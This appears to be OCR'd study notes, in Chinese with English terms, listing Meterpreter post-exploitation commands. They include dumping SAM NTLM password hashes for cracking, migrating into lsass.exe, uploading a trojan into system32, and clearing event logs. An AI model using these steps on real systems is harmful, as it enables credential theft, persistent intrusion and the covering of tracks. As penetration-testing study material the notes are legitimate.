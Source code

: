 		--> hashdump :  NTLM hash password  -->  https://crackstation.net/
			--> 列出 SAM （安全帳戶管理員）資料庫的內容
			--> Windows 系統上的使用者密碼  以NTLM（新技術 LAN 管理器）格式儲存
			
		--> idletime : 顯示遠端電腦上的使用者空閒的秒數
		--> ipconfig
		--> shell => C:\WINDOWS\system32>
		--> upload evil_trojan.exe c:\\windows\\system32
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> getpid : 執行 Meterpreter 的進程 ID
		--> ps : (find file pid)
			--> 列出目標系統上執行的進程
			--> PID列還將為您提供將Meterpreter遷移到另一個進程所需的PID資訊
			--> Name : system file // xx.exe
			
		--> migrate pid  
			--> migrate 764(lsass.exe) 
			--> hashdump NTLM Hash
		-->  load python : load 指令來利用其他工具
		
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> 核心指令 Core commands :
		--> background：目前會話的背景
		-->exit：終止Meterpreter會話
		-->guid：取得會話GUID（全域唯一識別碼）
		-->help：顯示幫助選單
		-->info：顯示Post模組的訊息
		-->irb：在目前會話上開啟互動式 Ruby shell
		-->load：載入一個或多個Meterpreter擴展
		-->migrate：允許您將Meterpreter遷移到另一個進程
		-->run：執行Meterpreter腳本或Post模組
		-->sessions：快速切換到另一個會話
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> 檔案系統指令 File system commands:
		-->cd: 將更改目錄
		-->ls：將列出目前目錄中的檔案（dir也可以）
		-->pwd：列印目前工作目錄
		-->edit：將允許您編輯文件
		-->cat：將文件的內容顯示到螢幕上
		-->rm：將刪除指定文件
		-->search：將搜尋文件
		-->upload：將上傳檔案或目錄
		-->download：將下載檔案或目錄
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> 聯網指令 Networking commands: 
		-->arp：顯示主機ARP（位址解析協定）緩存
		-->ifconfig：顯示目標系統上可用的網路介面
		-->netstat：顯示網路連線狀況
		-->portfwd：將本機連接埠轉送到遠端服務
		-->route：允許檢視和修改路由表
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> 系統指令 System commands
		-->clearev：清除事件日誌
		-->execute：執行命令
		-->getpid：顯示目前進程標識符
		-->getuid：顯示Meterpreter正在運作的用戶
		-->kill: 終止一個進程
		-->pkill：按名稱終止進程
		-->ps：列出正在運行的進程
		-->reboot：重新啟動遠端電腦
		-->shell：進入系統指令 shell
		-->shutdown：關閉遠端電腦
		-->sysinfo：獲取遠端系統的信息，例如OS
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> 其他命令（這些命令將在說明選單中的不同選單類別中列出）